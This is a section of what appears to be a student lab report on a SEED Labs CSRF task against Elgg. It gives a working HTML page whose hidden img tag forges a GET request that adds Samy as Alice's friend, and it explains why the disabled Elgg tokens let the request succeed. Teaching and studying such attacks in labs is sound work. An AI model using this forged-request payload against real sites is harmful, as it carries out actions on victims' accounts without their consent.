\subsection{Task 2 --- CSRF Attack using GET Request}
%
\begin{lstlisting}[language=html, caption= Content of the webpage forging an
    HTTP GET request for adding a friend., label={lst:html_add_friend}]
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/Add_friend_forging_HTTP_GET.png}
    \caption{Samy is now in the friend list of Alice without her acceptance.}
    \label{fig:friend_list}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/Samy_profile.png}
    \caption{Samy profile page.}
    \label{fig:samy_profile}
\end{figure}

After logged in as Alice in Elgg, we navigated to Samy profile page (see \autoref{fig:samy_profile}).
At this page, we hovered the cursor over the \emph{Add friend} button, showing the
legitimate Add-Friend HTTP request for Samy:

\begin{verbatim}
    http://www.seed-server.com/action/friends/add?friend=59
\end{verbatim}

As the countermeasure for CSRF
of Elgg was turned off, {\fontfamily{qcr}\selectfont \_\_elgg\_ts} and {\fontfamily{qcr}\selectfont
\_\_elgg\_token} are ignored. As far as we guess, the number \emph{59}, the value of parameter
{\fontfamily{qcr}\selectfont add?friend}, is the user ID of Samy. At this stage, we just need
to embed the legitimate HTTP GET request, adding Samy as a friend, in the HTML code of Samy's
website (see \autoref{lst:html_add_friend}). After Alice visited the poisonous website,
{\fontfamily{qcr}\selectfont www.attacker32.com}, Samy was automatically added in her friend
list (see \autoref{fig:friend_list}). The embedded HTTP GET request was triggered automatically
by the {\fontfamily{qcr}\selectfont img} tag.